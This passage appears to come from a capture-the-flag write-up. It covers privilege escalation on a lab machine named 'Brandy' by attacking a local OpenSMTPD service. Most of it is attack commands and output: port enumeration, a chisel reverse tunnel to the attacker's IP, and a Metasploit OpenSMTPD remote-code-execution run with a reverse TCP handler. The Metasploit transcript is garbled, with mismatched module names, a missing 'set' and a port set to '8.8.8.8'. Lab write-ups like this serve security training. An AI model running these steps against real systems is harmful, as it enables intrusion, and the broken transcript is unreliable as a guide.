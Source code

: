 ```terminal

www-data@Brandy:/var/www/html/dolibarr/documents/users/2$ 

```

## **Privilege Escalation**

Checking the listening ports using `netstat -tulpn` we find something very interesting.

```terminal
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                    
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:25            0.0.0.0:*               LISTEN      -
tcp6       0      0 :::80                   :::*                    LISTEN      -
tcp6       0      0 :::22                   :::*                    LISTEN      -
```

Port 25 is listening locally.

Let's connect to that port and do some enumeration.

```terminal
www-data@Brandy:/home$ nc 127.0.0.1 25                                                          
220 Brandy ESMTP 

```

The smtp server is `OpenSMTPD`.

Searching for possible exploits on google we find a module on metasploit called `exploit/unix/smtp/opensmtpd_mail_from_rce` which exploits an RCE vulnerability on the `OpenSMTPD` server.

Before we start the exploitation we need to forward the 25 port first.

### Chisel

I'll be using `chisel` for the forwarding part.

First we start a server on our machine using the following command.

```bash
./chisel server --reverse --port 9999
```

After uploading a copy of the binary we need to connect to our server using the following command.

```bash
./chisel client 10.66.67.114:9999 R:8888:localhost:25
```

![chisel](6.png)

Now that everything is setup let's fire up metasploit, fill the options of the module and run it.

```terminal
[msf](Jobs:0 Agents:1) exploit(unix/local/opensmtpd_oob_read_lpe) >> set lhost tun0
[msf](Jobs:0 Agents:1) exploit(unix/local/opensmtpd_oob_read_lpe) >> rhosts 127.0.0.1
[msf](Jobs:0 Agents:1) exploit(unix/local/opensmtpd_oob_read_lpe) >> set rport 8.8.8.8
[msf](Jobs:0 Agents:1) exploit(unix/smtp/opensmtpd_mail_from_rce) >> run                                                                                                             [188/717]
[*] Started reverse TCP handler on 10.66.67.114:4444             
[*] 127.0.0.1:8888 - Running automatic check ("set AutoCheck false" to disable)
[!] 127.0.0.1:8888 - The service is running, but could not be validated.                       
[*] 127.0.0.1:8888 - Connecting to OpenSMTPD                                                   
[*] 127.0.0.1:8888 - Saying hello and sending exploit                                          
[*] 127.0.0.1:8888 - Expecting: /220.*OpenSMTPD/                                               
[*] 127.0.0.1:8888 - Sending: HELO 4VjeYCOD56t6QoUq1VnvbJlc8                                   
[*] 127.0.0.1:8888 - Expecting: /250.*pleased to meet you/                                     
```